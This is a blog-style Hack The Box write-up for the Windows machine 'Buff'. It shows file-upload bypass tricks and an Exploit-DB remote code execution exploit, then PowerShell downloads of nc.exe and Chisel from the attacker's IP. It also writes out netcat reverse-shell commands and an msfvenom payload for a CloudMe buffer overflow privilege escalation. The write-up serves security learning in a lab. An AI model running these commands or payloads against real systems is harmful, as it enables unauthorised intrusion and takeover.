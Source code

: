 ```yaml
---
layout: post
title:  "Hack The Box - Buff Writeup"
date:   2020-11-21 06:00:00
categories: "htb"
author: Ryan
image: 
  path: /assets/img/htb/HTB-Buff/Header.png
---
```


*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![HTB - Buff](../images/HTB-Buff/Header.png)

Buff is an Easy level Windows machine. The box statistics show us that we will be focusing heavily on existing CVEs, while working on enumeration skills in a somewhat realistic setup.  
![Buff Statistics](../images/HTB-Buff/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the tartget IP with Nmap, we're able to find what ports are open, while fingerprinting the services running and their versions.  
`>> nmap -p7680,8080 -sC -sV -Pn  -oA Extracts/Buff 10.10.10.198`
![Nmap](../images/HTB-Buff/nmap.png)

### Mrb3n's Bro Hut
Navigating to [http://10.10.10.198:8080](http://10.10.10.198:8080) leads us to what appears to be a pretty basic gym website. We can see infomation around their offerings, pricing, and facilities. One piece of information that stands out can be seen on the [Contact](http://10.10.10.198:8080/contact.php) page.  
![Buff Statistics](../images/HTB-Buff/Information_Gathering_GymManagementSoftware.png)

## Foothold
By researching the Gym Management Software version 1.0, we can see there are a wide range of reported vulnerabilities. An [Unauthenticated RCE](https://www.exploit-db.com/exploits/48506) exploit can be found on Exploit-DB, and looks to be promising.

### Script Usage
After downloading the exploit to our machine, we can learn more about its usage with the following command:  
`>> python 48506.py`
![Shell Help](../images/HTB-Buff/Shell_Help.png)

### Running the Script
Passing in our target server, the exploit runs successfully, and we gain shell access.  
`>> python 48506.py http://10.10.10.198:8080/`
![Shell Run](../images/HTB-Buff/Shell_Run.png)

### How it works
Reading through the exploit, it appears that the Gym Management Software is missing user authentication on its file upload at `upload.php`. Combining this with a few tricks to bypass any file upload restrictions, and we're able to achieve a basic web shell.

File Restriction Bypasses:
* **Filename.php.png**: If the server is only checking the last file extension, we're able to successfully pass the check by appending ".png" to the file name.
* **image/png**: By setting the content-type to image/png, we're telling the server that the file is an image, nothing suspicious to see here.
* **Magic Bytes**: In case the server decides to check the content of the file, rather than just the filename and content-type, we're passing it a series of "magic bytes" which act as a file signature. The bytes sent in this case, `\x89\x50\x4e\x47\x0d\x0a\x1a`, represent a PNG file.  
![Shell Code 1](../images/HTB-Buff/Shell_Code_1.png)

## Enumeration
### User Flag
We appear to be running as the user `shaun`. Let's see if we can get the User Flag.  
`>> type C:\Users\shaun\Desktop\user.txt`
![User Flag](../images/HTB-Buff/User_Flag.png)

### Upgrade Shell
Before we get too far into the box, let's upgrade our shell using Netcat. The current shell is very basic and unable to do many of the tasks we may need when enumerating or trying to escalate privileges later.

Set up local server to get nc.exe onto the target box. Make sure that you've got a local copy of nc.exe in whatever directory you're hosting from.    
`>> python -m SimpleHTTPServer`

Downloading Netcat  
`>> powershell -c "Invoke-WebRequest -Uri '10.10.14.39:8000/nc64.exe' -OutFile 'nc.exe'"`

Setting up a listener on our local machine  
`>> nc -lvnp 3333`

Starting Netcat from taget box  
`>> .\nc.exe 10.10.14.39 3333 -e cmd.exe`

### Looking Around
Its possible that there are additional users to pivot to, lets check.  
`>> dir C:\Users`  
![User Enum](../images/HTB-Buff/Enum_Users.png)

With no additional users to work with, we can continue looking through shaun's directories  
`>> dir C:\Users\shaun\Downloads`  
![Downloads Enum](../images/HTB-Buff/Enum_Downloads.png)

CloudMe_1112.exe looks interesting. A little research shows it runs on port 8888 by default. Let's see if there's anything listening there.  
`>> netstat -a`  
![Network Enum](../images/HTB-Buff/Enum_Network.png)

By checking the list of processes running, we can see if CloudMe is already running and if it's process is owned by another user (perhaps Admin?).  
`>> tasklist /v`  
![Process Enum](../images/HTB-Buff/Enum_Process.png)

It looks like CloudMe is running as a user other than shaun. This is promising, since Administrator was the only other account we found.

## Privilege Escalation
If the name "Buff" wasn't enough of a hint of what's to come, you may be surprised to find that CloudMe 1.11.2 is vulnerable to a [Buffer Overflow](https://www.exploit-db.com/exploits/48389). It first requires us to get network access to the service running on port 8888. Let's get that set up with a small TCP/UDP Tunneling tool called [Chisel](https://github.com/jpillora/chisel).

### Tunnelling Port 8888
Start Listener on local machine over port 8800  
`>> sudo ./chisel server -p 8800 -reverse`

Download Chisel.exe to target box  
`>> powershell -c "Invoke-WebRequest -Uri '10.10.14.39:8000/chisel.exe' -OutFile 'chisel.exe'"`

Tunnel connection from target box to local machine  
`>> chisel.exe client 10.10.14.39:8800 R:8888:127.0.0.1:8888`

Result:  
![PrivEsc Tunnel](../images/HTB-Buff/PrivEsc_Tunnel.png)

### Generating Payload
The exploit we're using is currently set up to launch calc.exe. By using msfvenom, we can create a custom payload to do anything we want. Because the  
`>> msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.39 4444 -e cmd.exe' -b '\x00\x0A\x0D' -f python -v payload`  
![Payload Generation](../images/HTB-Buff/Payload_Generation.png)

### Execution
With our updated exploit, we'll be able to trigger the buffer overflow and 

Set up another listener on our local machine  
`>> nc -lvnp 4444`

Running completed exploit  
`>> python 48389.py`  
![Root Shell](../images/HTB-Buff/Shell_Root.png)

### Root Flag
With our administrative shell, we're able to retrieve the flag  
`>> type C:\Users\Administrator\Desktop\root.txt`  
![Root Flag](../images/HTB-Buff/Root_Flag.png)

